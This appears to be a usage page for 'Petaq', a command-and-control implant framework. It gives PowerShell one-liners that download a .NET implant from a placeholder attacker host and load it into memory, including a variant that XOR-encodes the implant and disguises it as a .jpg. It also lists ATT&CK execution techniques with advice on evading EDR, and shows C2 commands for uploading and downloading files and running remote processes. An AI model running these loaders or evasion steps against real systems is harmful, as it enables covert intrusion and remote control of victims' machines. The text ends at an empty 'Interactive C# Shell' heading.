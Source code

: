 # Initial Execution
## PowerShell
* Run Powershell to load PetaqImplant .NET assembly through PetaqService
```
powershell –c $m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache];$Url='http://YOURIP:YOURPORT/';$dba=$m.downloaddata($Url);$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))
```
* Run Powershell to load PetaqImplant .NET assembly XOR encoded through PetaqService
```
powershell –c $m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache];$Url='http://YOURIP:YOURPORT/PetaqImplantXORed.jpg';$dba=$m.downloaddata($Url);for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F};$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))
```
## Alternative Mitre Att&ck Techniques for Execution
The following techniques can be used to deploy PetaqImplant .NET assemmbly or source through evasive executions. Some may need extra tools to embed .NET assembly to a JavaScript, some may need to add custom service code or a COM object to load the .NET assembly. Most of them highly monitored by EDRs as well as PowerShell. It's up to the operator to find an evasive way to invoke a .NET assembly, though, it would not be difficult as several Windows components/binaries/libraries natively load and run .NET assemblies. It's always a good idea to check the LOLBAS project to find a trusted Windows binary to run a .NET assembly or command indirectly.
* T1086 - PowerShell (Use PowerShell to load PetaqImplant .NET assembly from remote)
* T1121 - Regsvcs/Regasm (Run PetaqImplant.exe via Regasm, or add service code for Regsvcs)
* T1064 - Scripting (Use Dotnettojs/Cactustorch/Tikitorch to deploy PetaqImplant .NET Assembly)
* T1118 - InstallUtil (Use InstallUtil bypass to run/compile PetaqImplant .NET assembly or source)
* T1175 - Component Object Model and Distributed COM (Use a COM object to serialise PetaqImplant .NET Assembly)

# File Operations
Petaq can download and upload files through the C2 channels as below.
```
download c:\windows\system32\ftp.exe
upload 1.txt c:\windows\temp\1.txt
```

# Code Execution Features
## Start a Process with Arguments
Start a process as inline or as a thread. This is mainly used for running CMD.exe commands, PowerShell scripts or running custom programs with arguments. It's easier to spot for EDRs and Sysmon like tools if the processes and arguments are monitored well. 
```
exec cmd.exe /c dir
exec powershell -c Write-Output($env:UserName)
exec whoami
```
If Petaq shouldn't wait for the process as it may take a long time, then execthread would be used to run the processess as a threat to PetaqImplant process. Downside is Petaq wouldn't be able to get the output. In future, this may be fixed with SMB Named Pipes. 
```
execthread cmd.exe /c dir
execthread powershell -c Write-Output($env:UserName)
execthread whoami
```
## Interactive C# Shell